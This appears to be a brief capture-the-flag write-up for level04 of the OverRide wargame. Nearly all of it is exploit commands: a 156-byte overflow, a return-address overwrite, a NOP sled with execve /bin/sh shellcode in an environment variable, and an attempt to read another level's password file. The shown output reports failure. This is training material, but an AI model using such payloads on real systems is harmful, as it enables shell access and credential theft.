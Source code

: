 ### step 1: Decompile with Ghidra

We get the c source code of the program  

### step 2: Code analysis



segfault au 156ème char

( python -c 'print("A" * 156 + "\xae\xde\xff\xff")' ; cat ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level04

( python -c 'print("A" * 156 + "\xae\xde\xff\xff")' ; cat "/home/users/level05/.pass" ) | env -i SHELLC
ODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08
\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level04

level04@OverRide:~$ ( python -c 'print("A" * 156 + "\xae\xde\xff\xff")' ; cat "/home/users/level05/.pass" ) | env -i SHELLC
ODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08
\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level04
cat: Give me some shellcode, k
no exec() for you
/home/users/level05/.pass: Permission denied


- run python commands in gdb : `r <<< $(python -c "print 'A'*157")`